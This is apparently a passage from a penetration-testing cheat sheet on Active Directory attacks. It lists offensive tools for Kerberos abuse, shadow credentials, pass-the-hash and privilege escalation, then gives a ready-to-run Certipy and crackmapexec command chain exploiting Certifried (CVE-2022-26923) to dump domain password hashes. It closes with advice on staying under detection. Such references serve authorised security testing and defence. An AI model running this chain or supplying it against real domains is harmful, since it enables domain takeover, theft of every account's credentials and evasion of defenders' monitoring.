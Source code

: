 | Certipy | Tool for Active Directory Certificate Services enumeration and abuse | https://github.com/ly4k/Certipy |
| Whisker | Whisker is a C# tool for taking over Active Directory user and computer accounts by manipulating their msDS-KeyCredentialLink attribute, effectively adding "Shadow Credentials" to the target account. |https://github.com/eladshamir/Whisker |
| PyWhisker | Python version of the C# tool for "Shadow Credentials" attacks | https://github.com/ShutdownRepo/pywhisker |
| BloodyAD Framework | BloodyAD is an Active Directory Privilege Escalation Framework, it can be used manually using bloodyAD.py or automatically by combining pathgen.py and autobloody.py. | https://github.com/CravateRouge/bloodyAD |
| tickey | Tool to extract Kerberos tickets from Linux kernel keys. | https://github.com/TarlogicSecurity/tickey |
| Rubeus | Rubeus is a C# toolset for raw Kerberos interaction and abuses. | https://github.com/GhostPack/Rubeus |
| pth-toolkit | A modified version of the passing-the-hash tool collection https://code.google.com/p/passing-the-hash/ designed to be portable and work straight out of the box even on the most 'bare bones' systems. | https://github.com/byt3bl33d3r/pth-toolkit |
| Impacket | Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. | https://github.com/SecureAuthCorp/impacket |
| powercat | Netcat: The powershell version. | https://github.com/besimorhino/powercat |
| PowerUp | PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations. | https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1 |
| Powermad | PowerShell MachineAccountQuota and DNS exploit tools | https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1 |
| PowerView | PowerView is a PowerShell tool to gain network situational awareness on Windows domains. | https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 |
| PowerSploit | PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment. | https://github.com/PowerShellMafia/PowerSploit |
| PowerSharpPack | Many useful offensive CSharp Projects wraped into Powershell for easy usage. | https://github.com/S3cur3Th1sSh1t/PowerSharpPack |
| WinPwn | Automation for internal Windows Penetrationtest / AD-Security | https://github.com/S3cur3Th1sSh1t/WinPwn |
| SharpCollection | Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines. | https://github.com/Flangvik/SharpCollection |
| static-binaries | This repo contains a bunch of statically-linked binaries of various tools, along with the Dockerfiles / other build scripts that can be used to build them. | https://github.com/andrew-d/static-binaries |

## Active Directory Certificate Services (ADCS) Domain Privilege Escalation

### Certifried: Active Directory Domain Privilege Escalation (CVE-2022-26923)

[Oliver Lyak, Certifried: Active Directory Domain Privilege Escalation (CVE-2022-26923)](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4?gi=c16ad1067dcd)

As long as the `Object SID` is missing, the exploit will work.

```c
$ certipy account create -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -dc-ip <RHOST> -dns '<DOMAIN_CONTROLLER_DNS_NAME>' -user '<COMPUTERNAME>'
$ certipy req -username '<USERNAME>@<DOMAIN>' -password '<PASSWORD>' -ca <CA> -target <FQDN> -template <TEMPLATE> -dc-ip <RHOST>
$ certipy auth -pfx ./<CERTIFICATE>.pfx -dc-ip <RHOST>
$ crackmapexec smb <RHOST> -u '<USERNAME>' -H '<NTLMHASH>' --ntds
```

I recommend to do `DCSync` from one `Domain Controller` to not raise any alarms.
